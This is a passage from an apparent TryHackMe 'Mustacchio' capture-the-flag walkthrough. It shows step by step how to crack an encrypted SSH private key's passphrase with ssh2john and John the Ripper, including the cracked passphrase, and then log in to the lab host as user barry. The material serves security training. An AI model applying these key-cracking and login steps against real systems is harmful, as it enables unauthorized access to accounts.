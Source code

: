 We can see it's encrypted, so we'll need to try and crack it to get a password:

```text
──(root💀kali)-[~/thm/mustacchio]
└─# locate ssh2john
/usr/share/john/ssh2john.py

┌──(root💀kali)-[~/thm/mustacchio]
└─# /usr/share/john/ssh2john.py id_rsa > id_rsa.john

┌──(root💀kali)-[~/thm/mustacchio]
└─# john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
urieljames       (id_rsa)
1g 0:00:00:05 DONE (2021-06-12 17:43) 0.1697g/s 2434Kp/s 2434Kc/s 2434KC/s xCvBnM,..*7¡Vamos!
Session completed
```

If you forget to change the permission on the id_rsa file you'll get this error if you use it to log in via SSH:

```text
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for 'id_rsa' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "id_rsa": bad permissions
barry@mustacchio.thm: Permission denied (publickey).
```

Change that then try again, using the password we've just cracked:

```text
┌──(root💀kali)-[~/thm/mustacchio]
└─# chmod 600 id_rsa

┌──(root💀kali)-[~/thm/mustacchio]
└─# ssh -i id_rsa barry@mustacchio.thm
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-210-generic x86_64)
34 packages can be updated.
16 of these updates are security updates.
To see these additional updates run: apt list --upgradable
New release '18.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.
barry@mustacchio:~$
```
